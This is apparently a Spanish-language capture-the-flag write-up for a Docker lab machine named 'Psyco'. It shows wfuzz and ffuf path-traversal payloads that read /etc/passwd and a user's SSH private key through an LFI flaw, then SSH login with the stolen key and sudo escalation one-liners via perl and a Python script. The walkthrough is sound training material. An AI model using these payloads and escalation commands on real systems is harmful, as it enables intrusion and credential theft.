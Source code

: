 # Máquina Psyco - Writeup

La máquina Psyco es un entorno Docker que expone un servidor HTTP en el puerto 80 y un servicio SSH en el puerto 22. La imagen del servidor HTTP contiene datos ocultos protegidos con contraseña, que intentamos extraer usando herramientas de esteganografía como stegseek, sin éxito, incluso con el diccionario rockyou.

El objetivo principal de esta máquina es explotar una vulnerabilidad **LFI (Local File Inclusion)** para acceder a archivos sensibles, y luego escalar privilegios mediante un script Python ejecutable con sudo.

## Enumeración

Comenzamos haciendo un escaneo de puertos, donde encontramos el puerto 80 con un servidor HTTP y el puerto 22 abierto para SSH. Descargamos la imagen del servidor HTTP para su análisis.

Aunque la imagen contiene datos ocultos con contraseña, no logramos extraerlos con stegseek ni con ataques por diccionario con rockyou.

## Identificación de LFI

Para identificar la vulnerabilidad LFI usamos la herramienta **wfuzz** con el siguiente comando:

```bash
wfuzz -c --hc=404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd"
```

Esto nos permitió confirmar que el parámetro `vulnerables` nos daba acceso al archivo `/etc/passwd`. Al revisar este archivo vimos que existían tres usuarios principales:
- root
- vaxei  
- luisillo

## Fuzzing para encontrar archivos en home

Para descubrir qué archivos podíamos leer dentro de los directorios home de los usuarios, realizamos fuzzing con **ffuf**:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/index.php?secret=../../../../../../../../../home/FUZZ" -mc all -fc 404
```

Los resultados fueron muy extensos, así que filtramos por tamaño y creamos un diccionario personalizado llamado `lfi-pysco.txt` para afinar la búsqueda:

```bash
ffuf -w lfi-pysco.txt -u "http://172.17.0.2/index.php?secret=../../../../../../../../../home/vaxei/FUZZ" -mc all -fc 404 -fs 2582
```

Así encontramos dos archivos importantes en el directorio home del usuario vaxei:
- `.ssh/id_rsa.pub`
- `.ssh/id_rsa`

El archivo `.ssh/id_rsa` es la clave privada SSH, que nos permitiría conectarnos al servidor como el usuario vaxei.

## Uso de la clave privada para acceder vía SSH

La clave privada encontrada estaba en un formato moderno OpenSSH que no podíamos usar directamente. Por lo tanto, tuvimos que extraer el contenido base64, eliminar saltos de línea y espacios, y formatearlo con 64 caracteres por línea usando:

```bash
cat ~/.ssh/id_rsa_exfiltrada | tr -d ' \n' | fold -w64
```

Después, añadimos las cabeceras correctas:

```
-----BEGIN OPENSSH PRIVATE KEY-----
[contenido base64]
-----END OPENSSH PRIVATE KEY-----
```

Guardamos el archivo como `id_rsa_fixed` y le dimos los permisos adecuados para poder usarlo con ssh.

Luego intentamos conectarnos con:

```bash
ssh -i ~/.ssh/id_rsa_fixed vaxei@172.17.0.2
```

Y logramos acceso como el usuario **vaxei**.

## Escalada de privilegios con sudo

Ya dentro, ejecutamos `sudo -l` para ver qué comandos podíamos ejecutar como sudo sin contraseña. 

<img width="1039" height="100" alt="Pasted image 20250619005332" src="https://github.com/user-attachments/assets/78a0f32b-8df5-4310-883b-51c60344d10f" />


El resultado nos indicó que podíamos ejecutar un shell como el usuario luisillo mediante:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```

Esto nos permitió cambiar al usuario **luisillo**.

## Intentos de obtener root

En el home de luisillo no había nada útil, y los intentos de usar las claves o códigos encontrados no funcionaron para obtener acceso root directamente.

Sin embargo, volvimos a ejecutar `sudo -l` y vimos que podíamos ejecutar el script Python `/opt/paw.py` como root.

Al ejecutar el script, este daba errores, pero descubrimos que podíamos crear un script Python para llamar a un subprocess que ejecutara un shell con privilegios elevados.

Finalmente, ejecutando:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

el script llamaba a `/bin/bash -p`, dándonos una shell con permisos **root**.

<img width="587" height="270" alt="Pasted image 20250619012535" src="https://github.com/user-attachments/assets/6cd84d90-dca9-4c6d-bb0a-3221b4d0c88c" />


## Flags

- El usuario **vaxei** se obtuvo usando la clave RSA privada filtrada y formateada.
- La flag **root** se consiguió accediendo a la shell con permisos root tras la ejecución del script Python con sudo.

## Lecciones aprendidas

- La vulnerabilidad **LFI** es muy potente para obtener archivos sensibles, en especial claves privadas SSH.
- Las claves privadas pueden requerir modificaciones para ser utilizables (formateo).
- Siempre es importante revisar qué comandos se pueden ejecutar con sudo para encontrar vías de escalada.
- Los scripts mal configurados que se pueden ejecutar con permisos elevados son un riesgo de seguridad grave.
